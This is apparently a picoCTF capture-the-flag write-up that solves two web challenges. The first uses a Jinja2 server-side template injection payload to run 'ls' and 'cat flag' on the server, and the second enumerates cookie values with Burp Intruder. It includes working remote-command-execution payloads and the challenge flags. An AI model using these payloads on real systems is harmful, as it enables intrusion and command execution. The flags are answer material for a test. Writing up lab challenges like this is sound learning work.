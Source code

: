 # Web Gauntlet
---
# SSTI1 

Was provided with a website: http://rescued-float.picoctf.net:61245/ 

Its a python server, so its most probably gonna be jinja2. I found this using Burp Suite by examining the server name in the GET requests.   
![](assets/burp1.png)


As the name of the challenge suggests, I have to implement server side template injection.
I learnt what is Server Side Template Injection using the reference provided in the end.  
This is how the website looks like: 

![](assets/home.png)

On providing input of hello, the website is redirected to  http://rescued-float.picoctf.net:61245/announce and displays this:  

![](assets/hello.png)

Providing input of `{{ 7*7 }}` gave me output of 49, so its confirmed that its jinja2. 
Now  I can begin crafting my payload 

My ultimate aim is to check what files are there on the server and then read those files to get the flag. 
What I need to do is do remote command execution, basically run, 'ls', 'cat' etc. on the server via the template injection. 

After referring to the reference provided below, I created this payload: 
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

Output: 
```
# __pycache__ app.py flag requirements.txt
```
What this does is basically , runs the command `ls`  on the server and returns its output. 
Break down: 
1. `request.application` - Accesses the Flask application object through request context
2. `__globals__` - Gets the global variables of the application module 
3. `.__builtins__` - Accesses Python's built-in functions (like `open`, `eval`, `__import__`, etc.)
4. `.__import__('os')` - Imports the `os` module
5. `.popen('id')` - Opens a pipe to execute the `id` command in the shell. `popen()` runs shell commands and returns a file-like object
6. `.read()` - Reads the output from the command

Now as I know the file `flag` is present in the present working directory. I can read it using`cat`. 

Input: 
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

Output: 
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bcf73b04}
```

flag:`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bcf73b04}`
#### What is SSTI ? 

A server side template injection is a vulnerability that occurs when a server renders user input as a template of some sort. Templates can be used when only minor details of a page need to change from circumstance to circumstance. For example, depending on the IP that accesses a site, the site may look like:

```htmlmixed=
<h1>Welcome to the page!</h1>
<u>This page is being accessed from the remote address: {{ip}}</u>
```

Instead of creating a whole new page per person that accesses the site, it will simply render the remote address into the `{{ip}}` variable, while reusing the rest of the HTML for each person request the server receives to that endpoint.

This can be abused, since some template engines support some fairly complex functionality, that eventually allow for developers to run commands or file contents straight from the template.

### Reference: 

https://onsecurity.io/article/server-side-template-injection-with-jinja2/

---
# Cookies 

Description: 
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)

### Solve: 

Every time I do a webex challenge I open up the website in burpsuite for analysis. 

This is how the website looks like: 

![](assets/cookies1.png)

lets input the default 'snickerdoodle' value and check whats happening in the background 

This is what's happening: 

![](assets/cookies2.png)

/(GET) -> /search(POST) -> /check(GET) 

After giving input, a POST request is sent to the server which checks if the given cookie is present or not. Whatever result is achieved from `/search` , we are redirected to `/check` where final output is shown. 

Output: 


![](assets/cookies3.png)

We need to find which cookie contains the flag. 

On examining the POST request(`/search`): 

![](assets/cookies4.png)

It sends the input, in this case snickerdoodle to the server to check whether its the correct cookie or not.  

On examining the `/check`  GET request: 

![](assets/cookies5.png)

it returns if the given input is a cookie present in the website or not. 

Next step was to try different inputs. 

I looked up different types of cookies and input `chocolate chip` and it turns out that it was a cookie on the website, but not the one which is the flag. 

On examining the `/check` request after I input `chocolate chip`, this is what I found: 

```
GET /check HTTP/1.1
Host: mercury.picoctf.net:21485
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://mercury.picoctf.net:21485/
Accept-Encoding: gzip, deflate, br
Cookie: name=1
Connection: keep-alive
```

`Cookie: name=1` -> the value of name has incremented from 0 to 1 

I sent this GET request to the intruder to check every value from 0 to 30, just to check which one contains the flag. 

![](assets/cookies6.png)

This is what I got after the attack: 

![](assets/cookies7.png)

I checked the response of every request. 

The response which contained 
`Cookie: name=18` contained the flag. 

![](assets/cookies8.png)

flag: `picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}`


### What are cookies? 

A cookie is a small block of data created by a web server while a user it browsing a website and placed on the user's computer or other device by the user's web browser. 

Cookies are placed on the device used to access a  website, and more than one cookie may be placed on a user's device during a session. 

Reference: 
https://en.wikipedia.org/wiki/HTTP_cookie

